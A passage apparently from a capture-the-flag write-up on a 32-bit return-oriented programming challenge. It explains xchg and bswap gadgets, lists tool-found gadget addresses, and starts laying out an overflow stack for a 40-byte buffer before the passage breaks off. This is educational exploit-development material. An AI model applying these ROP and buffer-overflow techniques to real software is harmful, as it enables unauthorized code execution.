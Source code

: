 Exchange dl wih ecx... so if dl = "x41", then ecx should then = "\x41\x00\x00\x00"

We should be able to put a single-byte value into dl, by popping "\x41\x00\x00\x00" into edx. 
Then after the swap occurs, [ecx] should read "41", or "a" in ascii


## Q Gadget 3
```asm
0x08048558 <+21>:    pop    ecx
0x08048559 <+22>:    bswap  ecx
0x0804855b <+24>:    ret   
```

Bswap converts from little-endian to big-endian --> essentially, it flips the byte order ;P
so, abcd --> dcba

We could put the address of some writeable region of memory onto the stack, and pop it off into ecx:


## Our Other Gadgets:

```python
{134513538: Gadget(0x8048382, ['ret'], [], 0x4),
# lameee

 134513561: Gadget(0x8048399, ['pop ebx', 'ret'], ['ebx'], 0x8),
# can control ebx

 134514105: Gadget(0x80485b9, ['pop esi', 'pop edi', 'pop ebp', 'ret'], ['esi', 'edi', 'ebp'], 0x10),
# can control  esi, edi, ebp

 134514106: Gadget(0x80485ba, ['pop edi', 'pop ebp', 'ret'], ['edi', 'ebp'], 0xc),
# just edi
 134514107: Gadget(0x80485bb, ['pop ebp', 'ret'], ['ebp'], 0x8)}
# just ebp
```




# Crafting a Stack

We will first overflow the buffer, which is 40-Bytes, followed by a 4-Byte ebp, and a 4-Byte return address

So, we can set up this stack:

With this, we can move whatever is in dl (lsb in edx), into [ecx]

	_________________________________
	A's					40B
	_________________________________
	fake ebp
	 = "BBBB"				 4B
	_________________________________
	
